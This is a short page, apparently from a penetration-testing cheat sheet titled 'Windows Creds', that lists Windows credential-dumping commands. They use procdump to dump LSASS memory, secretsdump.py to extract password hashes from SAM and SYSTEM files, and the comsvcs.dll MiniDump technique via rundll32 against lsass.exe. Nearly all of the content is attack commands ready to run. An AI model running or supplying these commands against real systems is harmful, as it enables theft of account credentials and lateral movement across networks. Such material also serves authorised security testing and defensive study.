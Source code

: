 ```yaml
---
layout: post
title: "Windows Creds"
tags: ["SAM","LSASS","Secrets"]
os: ["Windows"]
code:
  - title: Dump hashes
    description:
    sample: .\procdump64.exe -accepteula -ma 580 out.dmp2
  - title: Crack offline SAM accounts
    sample: python secretsdump.py -system "systemfile" -sam "samfile"  LOCAL
---
```


# DUMP

## comsvcs.dll

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full
```